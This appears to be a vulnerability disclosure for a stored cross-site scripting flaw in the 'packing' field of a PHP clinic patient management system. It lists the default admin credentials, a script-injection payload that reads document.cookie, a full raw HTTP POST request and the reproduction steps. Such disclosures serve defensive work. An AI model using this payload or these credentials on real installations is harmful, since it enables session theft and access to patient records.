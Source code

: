 # Clinic's Patient Management System v1.0 by oretnom23 has xss vulnerability

Author：ZhangZhaoYue

The password for the backend login account is: admin/admin123

Vulnerability details: There is a stored xss vulnerability in "update_medicine_details.php" of the Medicine Detaits module of the Medicines module in the background management system

vendors: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

Vulnerability File: pms/update_medicine_details.php

Vulnerability location: ip/pms/update_medicine_details.php?medicine_id=1&medicine_detail_id=1&packing=,packing

[+] Payload: ip/pms/update_medicine_details.php?medicine_id=1&medicine_detail_id=1&packing=<script>alert(/document.cookie/)</script> // Leak place ---> packing


```sql
POST /pms/update_medicine_details.php?medicine_id=1&medicine_detail_id=1&packing=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/pms/update_medicine_details.php?medicine_id=1&medicine_detail_id=1&packing=%3Cscript%3Ealert(document.cookie)%3C/script%3E
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=0e9b9jpdjupmvl1dk6lq6dnmfe
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

hidden_id=1&medicine=1&packing=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&submit=
```

1. After we log in to the background, click on Medicines, then click on Medicines Details

![image](https://user-images.githubusercontent.com/48553402/176654143-135d24cf-48a5-4648-ac04-8b1948894f35.png)

2. Pull to the bottom to see the editing function, click the edit on the first line

![image](https://user-images.githubusercontent.com/48553402/176654221-c89f136f-3938-4f7f-ab1e-57bbf6cdc990.png)

3. Fill in our payload in the packing box (<script>alert(document.cookie)</script>),Click update to save

![image](https://user-images.githubusercontent.com/48553402/176654454-de82f23e-e359-47c4-ba32-bb5383674722.png)

4.After clicking save, you can see that our payload is executed, and the cookie pops up

![image](https://user-images.githubusercontent.com/48553402/176654845-76c713a7-8b67-4d04-a511-ddef173a00ea.png)

5.And also execute our payload when we access the Medicine Detaits of the Medicines module

![image](https://user-images.githubusercontent.com/48553402/176655025-1158c1f4-3beb-45a4-a3c2-52d7e97ec6af.png)
